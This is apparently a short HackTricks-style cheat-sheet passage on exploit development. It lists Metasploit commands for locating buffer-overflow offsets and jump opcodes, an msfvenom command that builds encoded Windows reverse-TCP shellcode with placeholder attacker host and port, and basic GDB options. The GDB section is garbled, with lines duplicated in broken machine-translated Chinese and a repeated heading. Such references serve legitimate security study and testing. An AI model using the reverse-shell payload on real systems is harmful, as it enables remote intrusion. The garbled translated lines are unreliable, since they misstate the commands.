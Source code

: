 

<details><summary><strong>Support HackTricks and get benefits!</strong></summary></details>


# Metasploit

```
pattern_create.rb -l 3000   #Length
pattern_offset.rb -l 3000 -q 5f97d534   #Search offset
nasm_shell.rb
nasm> jmp esp   #Get opcodes
msfelfscan -j esi /opt/fusion/bin/level01
```

## Shellcodes

## shellcodes

```
msfvenom /p windows/shell_reverse_tcp LHOST=<IP> LPORT=<PORT> [EXITFUNC=thread] [-e x86/shikata_ga_nai] -b "\x00\x0a\x0d" -f c
```

# GDB

## Install

```
apt-get install gdb
```

## Parameters

**-q** --> No show banner\

**  -  Q **  - >没有显示横幅\
**-x \<file>** --> Auto-execute GDB instructions from here\

**  -  x \ <file> **  - >自动执行GDB指令\
**-p \<pid>** --> Attach to process

**  -  p \ <PID> **  - >附加到进程

### Instructions

＃＃＃ 指示

\> **disassemble main** --> Disassemble the function\

\> **拆卸主**  - >拆卸功能\
\> **disassemble 0x12345678**\
\> **set disassembly-flavor intel**\
\> **set follow-fork-mode child/parent** --> Follow created process\
